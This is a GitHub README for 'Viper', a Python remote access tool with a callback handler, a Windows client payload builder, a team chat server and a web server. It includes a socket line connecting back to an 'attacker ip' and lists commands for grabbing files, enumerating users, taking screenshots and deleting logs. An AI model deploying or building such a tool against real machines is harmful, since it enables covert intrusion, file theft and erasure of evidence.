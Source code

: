 
Copyright © 2017, [Jinverar owner of black signals](https://github.com/jinverar).
//=> Copyright (c) 2017 jinverar

##VIPER

*

This is viper!

Viper is designed in order to retrieve compromised files, processes, and services in case you have to reach out and grab information quickly. 
The viper can also be used for testing exploitation and enumeration for the purpose of learning offensive for defensive actions.

Viper also has team server capabilities *I am still working out bugs but it works great currently with command line

This program was created as a basic function to reach out and grab things fast! Powered by twisted python. 

I have recently added a twisted webserver and chat server for teamdevops

*

viper has been tested on kali 2.0 x86

###Instalation instructions

***The installer.sh should do this for you***

***Install commands***

chmod +x installer.sh

./installer.sh

The installer will back up your ~/.bashrc file and This should do the tricks and get you up and running. 

You will need to verify the installer adds the python path to the end of the ~/.bashrc

Quick pythonpath help commands

echo export PYTHONPATH="" >> ~/.bashrc

source ~/.bashrc

###libraries installed and current requirements check install.sh for mods

```

python-twisted +16.6;

PyCrypto;

pyOpenSSl;

Zope interface;

python 2.7;

python-2.7.13.msi;

pyinstaller-3.1.1;

future-0.16.0;

wine;

winetricks;

```

###Usage:

***to start the viper console:***

Navigate into the payloads and change the ip address and port number inside the client

$$> chmod +x start-teamserver.sh
$$> ./start-teamserver.sh

***usage:***

start the handler first and then start the client on the target machine

viper main commands:

[*] handler ========= > "starts the viper server and waits for a call back" 

[*] buildfang ========= > "creates a basic exe file from viperclient.py and stores it inside payloads"; 

[*] chatserver ========= > will start your chat server on port 8123. You will have to open a new terminal to connect

[*] stopchat ========= > will tear down the chat server when needed

[*] startweb ========= > starts the webserver

[*] stopweb ========= > stops the webserver


###build fang pre-instructions***

Inside viper client modify these two lines with your local ip address

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    s.connect(('address you want to connect back to, attacker ip', 8081))


***viper connection commands:***

use these once you get the call back from the client. first you will need to enter in the local host and port number that you assigned to the client before deploying. 

[*] grab*<filename> ========= > grabs the file and saves it to the local desktop as .txt";

[*] getenv       ========= >  prints the system information";

[*] getuid       ========= > Get the user level access of the shell";

[*] SystemInfo   ========= > Get Fingerprint of the system"; todo

[*] capture      ========= > take images of the host machine "; todo

[*] Cover        ========= > Delete all traces of logs"; todo

```
Contributing

    Fork it!
    Create your feature branch: git checkout -b my-new-feature
    Commit your changes: git commit -am 'Add some feature'
    Push to the branch: git push origin my-new-feature
    Submit a Pull Request
```
